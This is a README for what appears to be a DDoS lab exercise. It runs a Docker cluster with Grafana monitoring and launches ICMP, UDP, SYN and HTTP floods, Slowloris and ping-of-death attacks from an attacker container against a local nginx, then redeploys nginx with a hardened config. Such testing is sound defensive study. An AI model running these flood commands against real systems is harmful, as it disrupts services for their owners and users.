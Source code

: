 # prjctr-16-ddos

Create a token in influxdb for telegraf, add to telegraf config
Create a token in influxdb for grafana, add to grafana config

```
http://127.0.0.1:3000/connections/datasources/edit

docker exec -it influxdb influx auth create --org telegraf --read-buckets --read-checks  --read-checks  --read-dashboards --skip-verify --read-telegrafs --read-notificationEndpoints
```

### Run the cluster

```
docker compose up -d --build
```

### ICMP flood

```
docker exec -it attacker hping3 --flood --icmp nginx -p 8080
```

### UDP flood

```
docker exec -it attacker hping3 --flood --rand-source --udp -p 8080 nginx
```

### HTTP flood

**Noticeably increases CPU and Memory usage of nginx**

```
docker exec -it attacker siege -b -c250 -t60s http://nginx:8080
```

### Slowloris

**Significantly increases memory usage**

```
docker exec -it attacker slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

### SYN flood

```
docker exec -it attacker hping3 -S --flood -V -p 8080 nginx
```

### Ping of death

```
docker exec -it attacker fping -b 65488 -c 10000 -p 10 nginx
```

### Re-deploy nginx with the secured config

```
NGINX_CONF_FILE=./nginx/nginx-secure.conf docker compose up -d
```

Now slowloris and HTTP flood attacks have no effect
